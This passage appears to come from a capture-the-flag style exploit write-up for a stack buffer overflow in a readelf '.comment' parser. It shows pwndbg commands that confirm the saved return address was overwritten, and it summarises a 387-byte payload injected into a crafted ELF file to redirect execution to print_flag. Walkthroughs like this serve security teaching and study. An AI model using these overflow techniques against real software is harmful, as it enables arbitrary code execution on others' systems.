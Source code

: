 3. **Find `comment[0]` in memory** (using `rdx`, which was set by `lea rdx, [rbp-0xf0]` earlier):  
   ```gdb
   pwndbg> print/x $rdx
   $1 = 0x7fffffffd490    # example address of comment[0]
   ```

4. **Compute saved-RIP = `comment[0] + 0xf8`** (248 bytes past):  
   ```gdb
   pwndbg> print/x $rdx + 0xf8
   $2 = 0x7fffffffd588    # address of saved-RIP
   ```

5. **Dump the 8 bytes at that address**:  
   ```gdb
   pwndbg> x/gx $rdx + 0xf8
   0x7fffffffd588: 0x00000000004241f2
   ```
   Those eight bytes match our `MANUAL_RIP = b"\xf2\x41\x42\x00\x00\x00\x00\x00"`, so saved-RIP was overwritten correctly with `0x004241f2`.

6. **Execute the `ret` so it actually jumps**:  
   ```gdb
   pwndbg> finish
   ```
   GDB prints:
    ```gdb
    Run till exit from #0  doshn (…) at readelf.c:1510
    0x00000000004241f2 in print_flag ()
    ```

   That shows control has transferred to `print_flag` at `0x4241f2`. You have successfully hijacked RIP.

---

## 6. Summary

- **Vulnerability**: Unbounded stack write in `doshn` when parsing `.comment`. Two carefully placed `(` characters cause writes to overflow from a 128-byte buffer into saved-RIP.  
- **Payload**: 387 bytes that:
  1. Perform two “(`)” markers at strategic indices to reset the write base,
  2. Overflow exactly 248 bytes past the second `(` into saved-RIP,
  3. Place an 8-byte target address (little-endian) at saved-RIP,
  4. Break with `')'` so no further writes occur.  
- **ELF Injection**: We carve out a minimal ELF (`exploit.elf`), remove its original `.comment`, insert `payload.bin`, and patch `.comment.sh_size` to 0x7f.  
- **Verification**: Under pwndbg, at the overwrite‐site breakpoint:
  - Check `version_start = 130` (second `(` at idx=129).  
  - Read saved-RIP from `comment[0] + 248 = $rdx + 0xf8`.  
  - Confirm the 8 bytes equal our chosen return address.  
  - Use `finish` (or `stepi`) to execute the `ret` and land in `print_flag`.

This end-to-end chain demonstrates a reliable stack-buffer overflow in readelf’s `.comment` parser that grants arbitrary code execution by overwriting the return address.
